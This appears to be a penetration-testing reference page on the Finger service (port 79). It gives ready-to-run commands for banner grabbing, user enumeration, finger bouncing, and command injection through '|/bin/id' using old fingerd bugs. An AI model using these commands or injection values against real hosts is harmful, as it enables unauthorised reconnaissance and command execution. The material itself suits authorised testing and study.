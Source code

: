 ```yaml
---
menu: "Finger - 79"
title: "Name/Finger Service Enumeration"
weight: 79
---
```

# Finger

{{<hint info>}}
Finger user information protocol.

**Default Port**: 79
{{</hint>}}

The Finger User Information Protocol ([RFC 1288](https://tools.ietf.org/html/rfc1288)),
is a simple protocol that provides
an interface to a remote user information program (RUIP).
[^rfc-1288]

## Banner Grabbing

#### Telnet

```sh
telnet {{< param "war.rhost" >}} 79
```

#### Netcat
```sh
echo "root" | nc -n {{< param "war.rhost" >}} 79
```

## Enumeration

### Tools

- [PentestMonkey - finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

### Fast Enum

```sh
for q in 'root' 'admin' 'user' '0' "'a b c d e f g h'" '|/bin/id';do echo "FINGER: $q"; finger "$q@{{< param "war.rhost" >}}"; echo -e "\n";done
```

#### Finger [^finger]

List logged users.

```sh
finger @{{< param "war.rhost" >}}
```
Finger a specific user.
```sh
finger -l root@{{< param "war.rhost" >}}
```
Enumerate users containing `user`.
```sh
finger -l user@{{< param "war.rhost" >}}
```

{{<note>}}
Try other words as: `admin`, `account` or `project`.
{{</note>}}

{{<details "Parameters">}}
- `-l`: Multi-line format. Displays all the information.
{{</details>}}

### Finger Zero [^cve-1999-0197]

`fingerd` may respond to `finger 0@<host>`
with information on some user accounts.

```sh
finger 0@{{< param "war.rhost" >}}
```

### Finger 'a b c d e f g h' [^cve-2001-1503]

`fingerd` may respond to `'a b c d e f g h'@<host>`
with information on all accounts.

```sh
finger 'a b c d e f g h'@{{< param "war.rhost" >}}
```

## Finger Bouncing [^finger-bouncing]

`finger` can be used to relay a request
to a different host
as if it were sent from that machine.

```sh
finger @{{< param "war.rhost" >}}@10.10.10.4
```

```sh
finger root@{{< param "war.rhost" >}}@10.10.10.4
```

## Command Execution [^cve-1999-0152]

`fingerd` allows remote command execution
through shell metacharacters.

```sh
finger "|/bin/id@{{< param "war.rhost" >}}"
```

## Finger Exploits Search

Refer to [Exploits Search]({{< ref "exploits-search">}})

[^rfc-1288]: “RFC 1288 - The Finger User Information Protocol.” IETF Tools, https://tools.ietf.org/html/rfc1288.
[^finger]: “Finger(1): User Info Lookup Program.” Linux Documentation, https://linux.die.net/man/1/finger.
[^cve-1999-0197]: “CVE - CVE-1999-0197.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=1999-0197.
[^cve-2001-1503]: “CVE - CVE-2001-1503.” CVE - Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1503.
[^finger-bouncing]: “‘Solaris 2.7 Allows Finger Bouncing’ .” SecuriTeam, 15 Jan. 1999, https://securiteam.com/exploits/2BUQ2RFQ0I/.
[^cve-1999-0152]: “CVE - CVE-1999-0152.” CVE -  Common Vulnerabilities and Exposures (CVE), https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0152.
